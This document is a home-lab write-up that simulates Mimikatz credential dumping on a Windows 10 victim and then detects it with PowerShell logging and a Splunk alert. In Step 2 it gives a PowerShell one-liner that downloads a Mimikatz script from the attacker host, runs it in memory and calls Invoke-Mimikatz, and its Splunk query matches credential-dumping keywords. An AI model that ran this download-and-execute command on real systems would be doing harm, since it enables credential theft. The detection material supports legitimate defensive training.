 # Scenario 5: Credential Dumping and Exfiltration (Mimikatz via PowerShell

## 🎯 Objective

Simulate an advanced credential dumping attack using Mimikatz through obfuscated PowerShell commands, and detect it using Windows logging mechanisms and Splunk.

---

## 🧠 Threat Simulation: Why This Matters?

Credential dumping is a technique used by adversaries (like APTs) to extract password hashes or plaintext credentials from memory. Mimikatz is one of the most well-known tools for this.

In this scenario, we simulate an attacker executing Mimikatz via PowerShell and attempt to detect this behavior using advanced logging and SIEM.

---

## 🧪 Lab Environment

| Component     | Role             | IP Address        |
|---------------|------------------|-------------------|
| Kali Linux    | Attacker         | 192.168.1.14      |
| Windows 10    | Victim           | 192.168.1.15      |
| Ubuntu (ELK)  | SIEM (Splunk)    | 192.168.1.16      |

---

## 🛠️ Step-by-Step Execution

### ✅ Step 1: Enable PowerShell Logging on Windows

1. Open **PowerShell as Administrator** on the Windows 10 victim machine.
2. Enable PowerShell Script Block Logging and Module Logging:

```powershell
# Enable Script Block Logging
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -Force

# Enable Module Logging
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging -Name EnableModuleLogging -Value 1 -Force
Reboot the system or restart PowerShell.
```
✅ Step 2: Simulate Mimikatz Attack via PowerShell
On the Windows machine, run:

powershell
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.14/mimi.ps1')
Invoke-Mimikatz
```
Replace 192.168.1.14 with Kali IP where mimi.ps1 is hosted using python3 -m http.server 80.

✅ Step 3: Analyze Logs in Splunk
Search in Splunk for PowerShell logs:

splunk
```
index=winlogs EventCode=4104 OR EventCode=4103
Or specifically:
```
splunk
```
index=winlogs EventCode=4104 
| eval command=lower(Message)
| search command="mimikatz" OR command="sekurlsa::logonpasswords" OR command="frombase64string"
```

✅ Step 4: Create a Detection Alert
Save the above Splunk search as an Alert.

Name it: Credential Dumping via PowerShell

Trigger Condition: If results > 0

Notify via email or log to index.

🔍 Key Detection Points
Log Source	Event ID	Description
Sysmon	1, 10	Process creation, PowerShell
PowerShell Logs	4103, 4104	Module/script block logging
Security Event Logs	4688	New process creation
